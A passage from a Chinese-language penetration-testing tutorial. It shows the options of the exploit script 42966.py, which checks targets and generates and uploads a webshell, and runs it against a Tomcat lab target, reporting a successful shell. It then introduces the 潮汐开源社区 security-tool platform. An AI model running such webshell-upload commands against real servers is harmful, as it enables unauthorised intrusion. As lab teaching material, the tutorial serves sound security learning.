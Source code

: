 <p><img alt="图片" src="assets/0718f0f7706b40279edc92d7a4e9ee46.jpg"/></p>
<p>由于不知道它的用法，我们下载来之后运行命令python3 42966.py，获取到它的使用方式如下：</p>
<pre><code class="language-plain">options:

-u ,--url [::] check target url if it's vulnerable 
-p,--pwn  [::] generate webshell and upload it
-l,--list [::] hosts list
</code></pre>
<p>从使用方式中，我们发现需要使用 -u 参数来指定攻击的Web链接，而使用 -p 参数则可以反弹shell。</p>
<p>于是我们将Tomcat靶场的地址作为参数，执行如下命令：</p>
<pre><code class="language-plain">python3 42966.py -u http://ab41e0726b9747ef851288e1bfea3682.app.mituan.zone:8080/ -p 
</code></pre>
<p><strong>发现弹出了shell，攻击成功。</strong></p>
<p>到这里，我们就完成了渗透测试基础的四个步骤，在学习的过程中我们多次用到潮汐开源社区中的工具，你可能对于潮汐开源社区还是比较陌生，接下来我来给你们介绍它的功能，确保你在使用起来更加得心应手。</p>
<h2 id="潮汐开源社区">潮汐开源社区</h2>
<p>潮汐开源社区是一个开源的安全工具合集平台，里面包含了大部分我们常见的安全工具，供我们在线使用，这解决了我们安装及维护安全工具的问题。</p>
<p>同时，它还给我们提供了大量的编排，所谓编排就是一个或多个工具的不同使用方式的结合，例如在渗透测试基础中，我们可以利用moreping以及Nmap工具结合起来，实现对于待攻击应用的服务探测。</p>
<p>作为潮汐开源社区的用户，我们不仅可以使用其中集成好了的工具，还可以自己写一些编排，供其他用户使用。</p>
<p><img alt="图片" src="assets/76fa6e3b1e53495f9f9ba1198ccb89c0.jpg"/></p>
<h2 id="总结">总结</h2>